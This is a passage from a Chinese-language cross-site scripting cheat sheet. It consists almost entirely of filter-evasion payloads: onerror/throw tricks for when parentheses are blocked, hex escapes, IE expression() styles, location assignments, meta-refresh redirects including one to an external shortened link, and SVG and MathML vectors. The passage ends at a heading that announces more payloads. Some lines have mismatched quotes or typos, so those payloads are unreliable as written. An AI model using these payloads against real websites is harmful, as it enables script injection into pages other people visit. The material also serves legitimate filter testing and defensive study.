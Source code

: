 

**当圆括号被阻塞时使用throw：**

[code]

    <a onmouseover="javascript:window.onerror=alert;throw 1>
[/code]

**另一个变种：**

[code]

    <img src=x onerror="javascript:window.onerror=alert;throw 1">
[/code]



Chrome和IE中，上面的向量会抛出一个"uncaught"，然而可以使用十六进制戏法

[code]

    <body/onload=javascript:window.onerror=eval;throw'=alert\x281\x29';
[/code]



**expression属性：**

[code]

    <img style="xss:expression(alert(0))"> // Works upto IE7.
    <div style="color:rgb(''&#0;x:expression(alert(1))"></div> // Works upto IE7.
    <style>#test{x:expression(alert(/XSS/))}</style> // Works upto IE7
[/code]

**location属性：**

[code]

    <a onmouseover=location=’javascript:alert(1)>click
    <body onfocus="location='javascrpt:alert(1) >123
[/code]

**其他载荷：**

[code]

    <meta http-equiv="refresh" content="0;url=//goo.gl/nlX0P">
    <meta http-equiv="refresh" content="0;javascript&colon;alert(1)"/>
    <svg xmlns="http://www.w3.org/2000/svg"><g onload="javascript:\u0061lert(1);"></g></svg> 
    <svg xmlns:xlink="http://www.w3.org/1999/xlink"><a><circle r=100 /><animate attributeName="xlink:href" values=";javascript:alert(1)" begin="0s" dur="0.1s" fill="freeze"/> 
    <svg><![CDATA[><imagexlink:href="]]><img/src=xx:xonerror=alert(2)//"></svg> <meta content="&NewLine; 1 &NewLine;;JAVASCRIPT&colon; alert(1)" http-equiv="refresh"/>
    <math><a xlink:href="//jsfiddle.net/t846h/">click 
[/code]



**当 = ( ) ; : 都不被允许时的XSS载荷：**
